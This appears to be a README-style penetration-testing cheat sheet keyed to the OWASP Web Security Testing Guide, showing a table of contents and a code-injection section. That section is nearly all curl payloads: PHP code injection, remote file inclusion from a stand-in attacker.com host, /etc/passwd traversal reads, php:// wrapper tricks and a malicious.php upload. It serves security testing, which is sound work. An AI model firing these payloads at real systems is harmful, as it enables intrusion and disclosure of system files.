 # OWASP Web Security Testing Guide (WSTG) - Data Validation Testing (Part 2)

This repository contains a collection of web application penetration testing techniques and commands based on the OWASP Web Security Testing Guide. The focus is on practical commands that can be used during penetration testing engagements.

## Table of Contents (Part 2)

11. [WSTG-INPV-11: Testing for Code Injection](#wstg-inpv-11-testing-for-code-injection)
12. [WSTG-INPV-12: Testing for Command Injection](#wstg-inpv-12-testing-for-command-injection)
13. [WSTG-INPV-13: Testing for Format String Injection](#wstg-inpv-13-testing-for-format-string-injection)
14. [WSTG-INPV-14: Testing for Incubated Vulnerability](#wstg-inpv-14-testing-for-incubated-vulnerability)
15. [WSTG-INPV-15: Testing for HTTP Splitting Smuggling](#wstg-inpv-15-testing-for-http-splitting-smuggling)
16. [WSTG-INPV-16: Testing for HTTP Incoming Requests](#wstg-inpv-16-testing-for-http-incoming-requests)
17. [WSTG-INPV-17: Testing for Host Header Injection](#wstg-inpv-17-testing-for-host-header-injection)
18. [WSTG-INPV-18: Testing for Server-side Template Injection](#wstg-inpv-18-testing-for-server-side-template-injection)
19. [WSTG-INPV-19: Testing for Server-Side Request Forgery](#wstg-inpv-19-testing-for-server-side-request-forgery)
20. [WSTG-INPV-20: Testing for Mass Assignment](#wstg-inpv-20-testing-for-mass-assignment)

## WSTG-INPV-11: Testing for Code Injection

**Objective**: Identify injection points where you can inject code into the application and check for LFI with dot-dot-slash (../../) and PHP Wrapper (php://filter/convert.base64-encode/resource).

### Commands

```bash
# Test for PHP code injection
curl -s "https://example.com/page.php?param=phpinfo();"
curl -s "https://example.com/page.php?param=<?php echo 'VULNERABLE'; ?>"

# Test for Remote File Inclusion (RFI)
curl -s "https://example.com/page.php?include=http://attacker.com/malicious.php"
curl -s "https://example.com/page.php?include=https://pastebin.com/raw/abcdef"

# Test for Local File Inclusion (LFI)
curl -s "https://example.com/page.php?include=../../../../../../etc/passwd"
curl -s "https://example.com/page.php?include=../../../../../../../etc/passwd%00"

# Test for PHP wrappers
curl -s "https://example.com/page.php?include=php://filter/convert.base64-encode/resource=index.php"
curl -s "https://example.com/page.php?include=php://input" -d "<?php phpinfo(); ?>"

# Test for code injection in different parameters
for param in "include" "file" "path" "template" "module"; do
  curl -s "https://example.com/page.php?$param=phpinfo();"
done

# Test for code injection in file upload names
curl -s -X POST "https://example.com/upload.php" -F "file=@malicious.php"

# Use specialized tools for code injection
python3 lfisuite.py -u "https://example.com/page.php?file=INJECTHERE"
```